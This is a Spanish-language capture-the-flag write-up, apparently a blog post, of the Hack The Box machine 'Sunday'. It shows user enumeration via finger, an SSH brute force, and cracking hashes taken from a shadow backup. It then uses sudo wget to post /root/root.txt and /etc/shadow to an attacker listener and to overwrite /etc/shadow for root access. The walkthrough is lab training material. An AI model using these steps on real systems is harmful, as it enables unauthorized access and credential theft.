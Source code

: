 ```yaml
---
layout: post
title:  "OSCP Path ~ Sunday de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada Sunday siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Sunday ~ Hack The Box to OSCP

Realizamos el escaneo con Nmap de puertos y servicios abiertos
```bash
PORT      STATE  SERVICE VERSION
79/tcp    open   finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2            Sat 17:20  10.10.16.210        \x0D
|_sammy    sammy                 pts/3            Sat 18:03  10.10.16.210        \x0D
111/tcp   open   rpcbind
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
46385/tcp closed unknown
63929/tcp closed unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

Vemos que tenemos el servicio `finger` que sirve para enumerar usuarios cuando se conectan
```bash
# finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76                                                                                                                              1 ⚙
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /opt/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Jul 29 11:20:02 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31, 2020>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Thu Jul 29 11:57:39 2021 #########
15 results.

10177 queries in 2257 seconds (4.5 queries / sec)
```
Se ve mucho ruido con esta herramienta, pues por eso es importante fijarnos solo en los usuarios que tenga fecha y hora.
```bash
user: sunny, sunday
```
 Teniendo estos usuarios procedemos a probar fuerza bruta por el puerto SSH con la herramienta `patator`
 ```bash
 # patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=users.txt password=FILE1 1=passwd_ssh_brute -x ignore:fgrep='failed'
12:53:58 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-07-29 12:53 CEST
12:53:58 patator    INFO -                                                                              
12:53:58 patator    INFO - code  size    time | candidate                          |   num | mesg
12:53:58 patator    INFO - -----------------------------------------------------------------------------
12:54:13 patator    INFO - 0     19     5.936 | sunny:sunday                       |    11 | SSH-2.0-Sun_SSH_1.3
12:54:14 patator    INFO - Hits/Done/Skip/Fail/Size: 1/18/0/0/18, Avg: 1 r/s, Time: 0h 0m 15s
```
# SSH Error Algorithms - Solution
Procedemos a intentar conectarnos por ssh con las credenciales obtenidas:
```bash
# ssh sunny@10.10.10.76 -p 22022                                                                                                 
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
Se nos lanza un error por un algoritmo de codificacion llamado `diffie-helman`.. pero lo solucionamos de la siguiente forma:
```bash
 ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
 ```
Con el parametro `-oKexALgorithms=` procedemos a especificarle el algoritmo que nos da problemas `+diffie-hellman-group1-sha1`
```bash
# ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
Password: 
Last login: Thu Jul 29 16:24:15 2021 from 10.10.16.212
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```
Conseguimos conectarnos correctamente. Procedemos a enumerar un poco el sistema.

# Escalada de Privilegios a Sammy
Procdemos con los comandos tipicos para enumera el sistema:
`sudo -l`
```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
`id`
```bash
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
```
`uname -a`
```bash
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```
Procedemos a movernos a la raiz `/` para enumerar directorios
```bash
cd /backup
cat shadow.backup
```
Sacamos los Hashes de un archivo shadow.backup de los siguientes usuarios
```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Procedo a intentar Crackearlos con el uso de `John`
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hashes      
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"sunday "          (sunny)
"cooldude!"        (sammy)
2g 0:00:00:10 DONE (2021-07-29 13:29) 0.1978g/s 20257p/s 20662c/s 20662C/s infinitig35..bluemoon2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Probamos a usar el comando `su` para con la contraseña del usuario sammy conectarnos pero no nos funciona
Porque no probamos por ssh
```bash
# ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1                                                                                                                                  1 ⨯
Password: 
Password: 
Last login: Thu Jul 29 17:26:31 2021 from 10.10.16.218
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ ls
Desktop  Documents  Downloads  Public
```
Conseguimos entrar correctamente por ssh
```bash
sammy@sunday:~$ cd Desktop/
sammy@sunday:~/Desktop$ ls
user.txt
sammy@sunday:~/Desktop$ cat user.txt 
a3d9498027ca5187ba1793xxxxxxxxxxxx
```
Sacamos la flag de `user.txt`

#Escalada de Privilegios a Root
Procedemos a enumerar al user sammy
```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
Vale pues procedemos de la siguiente forma
```bash
sammy@sunday:~/Desktop$ sudo wget --post-file /root/root.txt http://10.10.16.218/80
--18:05:40--  http://10.10.16.218/80
           => `80'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Y nos ponemos en escucha con una session de `nc`
```bash
# nc -vlnp 80                                                                                                                                                                                                 1 ⨯
listening on [any] 80 ...
connect to [10.10.16.218] from (UNKNOWN) [10.10.10.76] 59492
POST /80 HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.16.218
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0xxxxxxxxx
```
Ahi pillamos la flag de `/root/root.txt`

Consiguiendo la shell de root atraves del archivo /etc/shadow
Nos tramitamos el archivo antes mencionado
```bash
sammy@sunday:~$ sudo wget --post-file /etc/shadow http://10.10.16.218/80                              
--15:26:04--  http://10.10.16.218/80
           => `80'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... ^C
```
Nos ponemos en la escucha con :
```bash
# nc -vlnp 80 > shadow    
listening on [any] 80 ...
connect to [10.10.16.218] from (UNKNOWN) [10.10.10.76] 49713
```
Modificamos el archivo /etc/shadow desde nuestro Kali para meterle una password nueva al usuario root y ya poder conectarnos a el
En mi caso e procedido copiando la contraseña del usuario `sammy` para a hacer `su root`y meter la pass de `sammy` conseguir ganar acceso a root
Una vez modificado el archivo shadow, nos montamos un server en python3 para tramitar el archivo.
Y ya procedemos a hacer uso de wget para copiarnos el shadow modificado
```bash
sammy@sunday:~$ sudo wget http://10.10.16.218/shadow -O /etc/shadow
--15:35:30--  http://10.10.16.218/shadow
           => `/etc/shadow'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 657 [application/octet-stream]

100%[===========================================================>] 657           --.--K/s             

15:35:31 (16.60 KB/s) - `/etc/shadow' saved [657/657]
```
Ahora procedemos a hacer un su root
```bash
sammy@sunday:~$ su root
Password: 
sammy@sunday:~# id
uid=0(root) gid=0(root)
```
Maquina Rooteada =)

